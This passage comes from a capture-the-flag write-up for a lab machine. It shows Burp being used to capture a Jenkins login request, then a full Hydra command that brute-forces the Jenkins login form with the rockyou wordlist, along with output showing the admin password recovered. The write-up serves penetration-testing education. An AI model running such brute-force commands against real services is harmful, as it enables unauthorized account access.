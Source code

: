 ## Jenkins

We have the login page for Jenkins. I tried the credentials we've found so far without success. I also tried defaults like admin:admin etc, but nothing worked. So we have to assume we'll need to brute force our way in. First capture a login attempt in Burp:

![internal-burp](/assets/images/2021-03-04-22-07-01.png)

Forward the response from Burp, then look back a the login page to see what the failed login message is:

![internal-failedlogon](/assets/images/2021-03-04-22-12-01.png)

We now have all the information needed to use Hydra with a wordlist and attempt to find a password:

```text
root@kali:/home/kali/thm/internal# hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 1234 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-04 22:14:30
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://localhost:1234/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[STATUS] 432.00 tries/min, 432 tries in 00:01h, 14343967 to do in 553:24h, 16 active
[1234][http-post-form] host: localhost   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-04 22:16:05
```
